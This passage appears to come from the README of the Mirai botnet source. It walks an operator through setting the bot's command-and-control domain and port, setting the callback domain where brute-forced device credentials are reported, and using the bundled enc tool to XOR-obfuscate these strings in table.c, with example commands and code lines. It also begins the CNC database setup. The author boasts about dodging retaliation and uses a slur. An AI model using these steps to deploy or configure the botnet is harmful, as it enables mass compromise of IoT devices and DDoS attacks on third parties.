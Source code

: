 Bot has several configuration options that are obfuscated in `table.c/table.h`.
In [`./mirai/bot/table.h`](mirai/bot/table.h) you can find most descriptions for
configuration options.  However, in [`./mirai/bot/table.c`](mirai/bot/table.c)
there are a few options you *need* to change to get working.

* `TABLE_CNC_DOMAIN` - Domain name of CNC to connect to - DDoS avoidance very
  fun with mirai, people try to hit my CNC but I update it faster than they can
  find new IPs, lol. Retards :)
* `TABLE_CNC_PORT` - Port to connect to, its set to 23 already
* `TABLE_SCAN_CB_DOMAIN` - When finding bruted results, this domain it is
  reported to
* `TABLE_SCAN_CB_PORT` - Port to connect to for bruted results, it is set to
  `48101` already.

In [`./mirai/tools`](mirai/tools) you will find something called enc.c - You
must compile this to output things to put in the table.c file

Run this inside mirai directory

    ./build.sh debug telnet

You will get some errors related to cross-compilers not being there if you have
not configured them. This is ok, won't affect compiling the enc tool

Now, in the `./mirai/debug` folder you should see a compiled binary called enc.
For example, to get obfuscated string for domain name for bots to connect to,
use this:

    ./debug/enc string fuck.the.police.com

The output should look like this

    XOR'ing 20 bytes of data...
    \x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22

To update the `TABLE_CNC_DOMAIN` value for example, replace  that long hex string
with the one provided by enc tool. Also, you see `XOR'ing 20 bytes of data`.
This value must replace the last argument tas well. So for example, the table.c
line originally looks like this

    add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com

Now that we know value from enc tool, we update it like this

    add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com

Some values are strings, some are port (uint16 in network order / big endian).

# Configuring CNC

    apt-get install mysql-server mysql-client

CNC requires database to work. When you install database, go into it and run
following commands: https://web.archive.org/web/20161128111612/http://pastebin.com/86d0iL9g (ref:
[`db.sql`](scripts/db.sql))
